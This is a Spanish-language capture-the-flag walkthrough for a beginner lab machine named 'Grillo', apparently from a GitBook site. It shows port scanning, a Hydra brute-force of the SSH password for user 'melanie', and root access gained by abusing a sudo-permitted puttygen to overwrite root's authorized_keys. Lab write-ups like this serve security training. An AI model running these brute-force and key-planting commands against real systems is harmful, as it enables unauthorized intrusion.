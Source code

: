 ```yaml
---
description: '🔍 Dificultad: Principiante'
---
```


# Grillo

```bash
ping -c 1 192.168.1.67
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/imagen (77).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 192.168.1.67
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/imagen (78).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 192.168.1.67
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-10-12 214807.png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora exploramos el servicio **HTTP**. Ingresamos la IP y nos encontramos la página por defecto de **Apache**.

<figure><img src="../../.gitbook/assets/imagen (79).png" alt=""><figcaption></figcaption></figure>

Al revisar el código fuente nos encontramos un comentario muy interesante. Nos menciona a un usuario que se llama **melanie**.

<figure><img src="../../.gitbook/assets/imagen (71).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
hydra -l melanie -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.67 -t 5
```

que utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio **SSH** de una máquina con la IP **192.168.1.67**.

<figure><img src="../../.gitbook/assets/imagen (82).png" alt=""><figcaption></figcaption></figure>

Al realizar el ataque de fuerza bruta, hemos descubierto la contraseña de **melanie**. Sabiendo esto, nos conectamos a través de **SSH** al usuario con el comando:

```bash
ssh melanie@192.168.1.67
```

<figure><img src="../../.gitbook/assets/imagen (72).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/imagen (73).png" alt=""><figcaption></figcaption></figure>

Primero, creamos una clave SSH utilizando puttygen, una herramienta diseñada para gestionar claves SSH en diferentes formatos.

```bash
puttygen -t rsa -o id_rsa -O private-openssh
```

Esto genera una nueva clave privada RSA, que se almacena en el archivo **id\_rsa**. También se nos pide ingresar una frase de paso para agregar una capa extra de seguridad a la clave privada.\
Después de crear la clave, utilizamos el comando `ls` para confirmar que el archivo **id\_rsa** ha sido creado exitosamente.

<figure><img src="../../.gitbook/assets/imagen (74).png" alt=""><figcaption></figcaption></figure>

Con la clave privada generada, el siguiente paso es crear la clave pública correspondiente y agregarla al archivo **authorized\_keys** del usuario root. Esto permitirá el acceso SSH sin necesidad de contraseña desde la cuenta de Melanie:

```
sudo -u root /usr/bin/puttygen id_rsa -o /root/.ssh/authorized_keys -O public-openssh
```

Antes de intentar conectarnos por SSH, modificamos los permisos de la clave privada para garantizar que solo el usuario tenga acceso de lectura:

```
chmod 600 id_rsa
```

<figure><img src="../../.gitbook/assets/imagen (75).png" alt=""><figcaption></figcaption></figure>

Finalmente, empleamos la clave privada para acceder al servidor como usuario **root**.

```bash
ssh -i id_rsa root@192.168.1.67
```

<figure><img src="../../.gitbook/assets/imagen (76).png" alt=""><figcaption></figcaption></figure>

Te deseo mucho éxito en tu búsqueda de las flags! Recuerda prestar atención a cada detalle, examinar los archivos y servicios con detenimiento, y utilizar todas las herramientas disponibles para encontrarlas. La clave para el éxito está en la perseverancia y en no dejar ningún rincón sin explorar. ¡Adelante, hacker! 💻🔍🚀
